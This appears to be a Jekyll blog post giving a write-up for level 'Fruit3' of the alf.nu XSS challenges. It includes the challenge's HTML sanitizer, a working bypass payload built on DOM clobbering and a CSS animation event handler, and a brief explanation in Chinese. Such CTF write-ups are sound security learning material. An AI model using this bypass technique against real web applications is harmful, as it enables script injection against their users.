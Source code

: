 ```yaml
---
layout: post
title:  "alf.nu XSS challenges Write-ups level18 to level29 (part two)"
date:   2020-10-19 21:46:23 +0800
categories: jekyll update
---
```

# alf.nu XSS challenges Write-ups level18 to level29 (part two)

## Fruit3
### code
```javascript
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); i--; }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
### solution
```javascript
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=attributes></form>
```
### background info
这个XSS主要的技术是dom clobbering. 参考https://portswigger.net/web-security/dom-based/dom-clobbering.DOM clobbering不仅可以利用dom element来控制window scope的变量, 还可以用form元素的子元素input来污染form scope的变量. 

题中的escape函数遍历了n.attributes. 答案POC中的form元素的属性"attributes"就被子元素的的input污染了.

在理解这个原理后, 找一个合适的POC就可以了. 参考https://portswigger.net/web-security/cross-site-scripting/cheat-sheet . 注意本题iframe中autofocus是不能执行的.